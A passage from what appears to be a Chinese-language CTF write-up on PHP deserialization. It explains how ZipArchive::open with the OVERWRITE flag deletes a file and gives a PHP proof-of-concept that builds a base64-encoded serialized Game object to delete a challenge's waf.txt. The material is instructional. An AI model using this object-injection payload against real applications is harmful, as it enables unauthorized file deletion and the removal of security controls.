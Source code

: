 找到了`ZipArchive::open`

如果设置flags参数的值为 `ZipArchive::OVERWRITE` 的话，可以把指定文件删除。这里我们跟进方法可以看到const OVERWRITE = 8，也就是将OVERWRITE定义为了常量8，我们在调用时也可以直接将flags赋值为8。

```php
ZipArchive::open($filename, ZipArchive::OVERWRITE)
```

删除waf.txt的POC

```PHP
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){    // admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}

class login{
    public $file;
    public $filename;   
    public $content;
}

class Open{
    function open($filename, $content){
    }
}
$poc = new Game();
$poc->username = "admin";
$poc->password = "admin";
$poc->register = "admin";
$poc->file = new ZipArchive();
$poc->filename = "waf.txt";
$poc->content = ZipArchive::OVERWRITE;//或者为8
echo base64_encode(serialize($poc));
```
